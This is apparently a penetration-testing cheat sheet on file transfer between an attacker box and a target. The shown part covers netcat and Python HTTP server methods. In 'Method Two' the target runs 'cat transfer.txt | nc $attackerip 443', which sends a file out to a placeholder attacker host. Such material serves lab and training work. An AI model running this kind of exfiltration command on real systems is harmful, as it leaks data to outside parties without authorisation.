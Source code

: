 # Transfering Files 
## Table of Contents
- [Transfering Files](#transfering-files)
  * [Netcat File Transfer](#netcat-file-transfer)
      - [Method Two](#method-two)
  * [Web Servers:](#web-servers-)
    + [Python HTTP Server File Transfer](#python-http-server-file-transfer)
    + [PHP Web Server](#php-web-server)
    + [Metasploit Web Server](#metasploit-web-server)
  * [SMB File Transfer](#smb-file-transfer)
  * [Wget](#wget)
  * [Curl](#curl)
  * [PHP Download](#php-download)
  * [Secure Copy Protocol](#secure-copy-protocol)
      - [SCP More Example Usage](#scp-more-example-usage)
  * [Windows Specific Downloads](#windows-specific-downloads)
    + [CertUtil.exe](#certutilexe)
    + [Powershell downloads:System.Net.WebClient](#powershell-downloads-systemnetwebclient)
    + [Powershell Downloads: Start-BitsTransfer](#powershell-downloads--start-bitstransfer)
    + [Powershell Downloads: Invoke-WebRequest](#powershell-downloads--invoke-webrequest)
  * [I am Stuck](#i-am-stuck)

## Netcat File Transfer
- Step 1
- Create a file on the target box in the /tmp directory
```
touch file.txt
```
- Set up the listener and direct STDOUT into the new file
```
nc -nlvp 1234 > file.txt
```
-Send the file
```
nc [target box ip] 1234 < file-to-be-transfered.txt
```
#### Method Two
- On attacker run:
````
nc -lvp 443> transfer.txt
````
- On target run:
````
cat transfer.txt | nc $attackerip 443
````
## Web Servers:
### Python HTTP Server File Transfer
- Start the Python Server in the directory where the file is located that you want to transfer
- Use the ip address assigned to your box, if there is a vpn involved use the vpn address
```
python3 -m http.server
```
- Above is for python3
```
python -m SimpleHTTPServer 8000
```
- Above is for python
- You can optionally specify a port that you want the server to run on (it defaults to 8000)
```
python3 -m http.server 80
```